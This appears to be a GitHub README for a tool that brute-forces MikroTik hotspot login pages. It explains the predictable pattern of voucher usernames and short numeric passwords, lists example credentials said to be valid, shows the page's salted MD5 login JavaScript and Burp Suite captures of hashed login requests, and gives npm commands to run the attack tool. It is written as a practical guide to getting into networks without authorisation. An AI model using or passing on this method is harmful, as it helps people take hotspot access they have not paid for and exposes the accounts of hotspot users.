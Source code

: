 ### Brute-force attack login

The attack was only tested for the users of ***1 hour***, it is necessary to see the patron of the users of ***a month***.

## Analysis

----------
## Login
Example data valid.

```
username=1hjtd
password=263
```
![alt text](https://github.com/Juve-yescas/Brute-force-Mikrotik/blob/master/Information/Welcome-one.png "User 1hjtd")

```
username=1hmtw
password=423
```

![alt text](https://github.com/Juve-yescas/Brute-force-Mikrotik/blob/master/Information/Welcome-two.png "User 1hmtw")

#### The ip addres is this 

![alt text](https://github.com/Juve-yescas/Brute-force-Mikrotik/blob/master/Information/DHCP-example.png "My dchp config")


## How to attack?

The patron is <kbd>1h</kbd> for username

```
username=1hjtd
password=263
```

> By right clicking > View source code for this page,
You can see that the values to create a secure password are changing on the function doLogin(), this complicates attacking directly through a direct post you plain text, the post should be done with the password already encrypted.

```
document.sendin.password.value = hexMD5('\075' + document.login.password.value + '\532\742\124\412\422\545\965\162\943\173\846\825\842\857\139\184');
document.sendin.password.value = hexMD5('\123' + document.login.password.value + '\624\077\174\275\022\150\314\272\032\201\122\170\154\311\235\102');
```

### Capturing request with burpsuite

```
username=1hjtd&password=6e7651ee150309d7da25cb30329368e2&dst=&popup=true
username=1hjtd&password=9f788a4e692207e71cdffbb921b8f8f1&dst=&popup=true
username=1hjtd&password=9f788a4e692207e71cdffbb921b8f8f1&dst=&popup=true
username=1hjtd&password=1d44ed0532a8d99b41ea8864352d9e59&dst=&popup=true
username=1hjtd&password=99b033a5dbd6ff867c265c05170e0ef1&dst=&popup=true
username=1hjtd&password=9f2611a4b2ff7f42b9e72758aeb28a52&dst=&popup=true
username=1hjtd&password=d62418f1793ab0dec2754a088d21d534&dst=&popup=true
username=1hjtd&password=d62418f1793ab0dec2754a088d21d534&dst=&popup=true
username=1hjtd&password=00cfe5b8e01a385d18a29b459f349823&dst=&popup=true
```
> **Note:** The password changes every time a request is made.

## Post example to attack

```
username: 1hjtd
password: 00cfe5b8e01a385d18a29b459f349823

burpsuite capture: 

username=1hjtd&password=00cfe5b8e01a385d18a29b459f349823&dst=&popup=true
```

## How to use this tool?

Must have installed Nodejs and internet connection.

Clone this repository and in the folder **Hack-Mikrotik-Login** execute this command.

```
$ npm install
$ npm start
```